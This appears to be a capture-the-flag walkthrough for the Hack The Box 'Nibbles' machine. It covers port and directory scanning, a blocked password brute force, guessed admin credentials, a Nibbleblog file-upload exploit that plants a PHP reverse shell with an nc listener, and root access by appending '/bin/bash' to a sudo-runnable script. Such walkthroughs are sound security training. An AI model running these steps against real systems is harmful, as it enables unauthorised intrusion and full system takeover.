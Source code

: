 # Nibbles [HTB](https://app.hackthebox.com/machines/Nibbles)
![nibbles-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/nibbles-01.png)

## Recon

After adding the target to my `/etc/hosts` file, i fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- nibbles.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ An Apache server on port 80.

Lets take a look at the Apache server and see what we can gather. 


### Apache Port 80

If we open the site at `http://nibbles.htb` we get:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/site-03.png)

If we take a look at the source code, we can see an interesting comment:

![source-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/source-04.png)

Lets open this directory at `http://nibbles.htb/nibbleblog`:

![blog-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blog-05.png)

This is a blog site powered by `Nibbleblog`, all links lead to this home page. Lets take a look at the 
source code once again:

![blog-src-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blog-src-06.png)

Looks like we have an `admin` directory, lets see whats inside:

![admin-dir-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-dir-07.png)

As you can see, I've had a look around and i found the following directory `http://nibbles.htb/nibbleblog/admin/templates/easy4/index.bit`: 

![easy4-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/easy4-08.png)

If you hover over the `Dashboard` link, youll see it outlines the parameters to get the admin login page: 
`http://nibbles.htb/nibbleblog/admin.php?controller=dashboard`

![admin-login-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-login-09.png)

Iv'e tried to hunt down the admin password on the site, i couldnt find it. I also tried to search Google
for the default password, but without success as well. So i decided to brute force it. 

I opened `Burp`, capture a login request and send it to `Intruder`. Here i added the password field:

![intruder-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/intruder-10.png)

I use a `Sniper` attack with `/usr/share/wordlists/john.list` as the password wordlist:

![setup-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/setup-11.png)

I run the attack and i get Blacklisted after 5 attempts:

![blocked-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blocked-12.png)

So i take a step back and decide to enumerate further with a directory busting scan:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://nibbles.htb/nibbleblog/FUZZ
``` 

The two most interesting results are:

![ffuf-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blocked-12.png)

![ffuf-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/ffuf-14.png)


The `content` folder has some interesting `xml` files, like `/private/users.xml`, but it doesnt have the 
admin password. If we take a look at the `README` page:

![readme-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/readme-15.png)

We can see the version of the backend CMS. If we search Google, we can find a [public exploit](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html):

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/exploit-16.png)

There is also a Metasploit version, but we need the admin credentials. but we cant brute force, so lets try to guess. After a few failed attempts i found the credentials are `admin : nibbles`:

![admin-page-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-page-17.png)

Now that we know the credentials we can try this file upload [exploit](https://github.com/dix0nym/CVE-2015-6967).  We need a PHP reverse shell, i use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s

Make sure to update your listener's information:

![update-rshell-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/update-rshell-18.png)

Setup the listner with:

```bash
rlwrap nc -lnvp 443
```

Run the exploit with:

```bash
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload rshell.php
```

This should give you access to the system:

![shell-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/shell-20.png)



## Privilege Escalation


If we check our `sudo` privileges with:

```bash
sudo -l
```

![sudo-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/sudo-21.png)


We can run a bash script located in our home directory as root. But if `cd` into our user's home directory
we see the following:

![home-dir-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/home-dir-22.png)

No `personal` directory, instead we have a zip archive. Lets unzip it:

```bash
unzip personal.zip
```
![unzip-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/unzip-23.png)


Now if check our user's permissions to this script with `ls -l` we can see:

![perms-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/perms-23.png)

We have full read, write and execute permissions to this script. And since we can run it as root via sudo,
we can edit the file to run whatever command we want with elavated privileges. 

I just start a bash session at the end of the script:

```bash
echo "/bin/bash" >> /personal/stuff/monitor.sh
```

And i execute it with sudo:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![root-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/root-24.png)
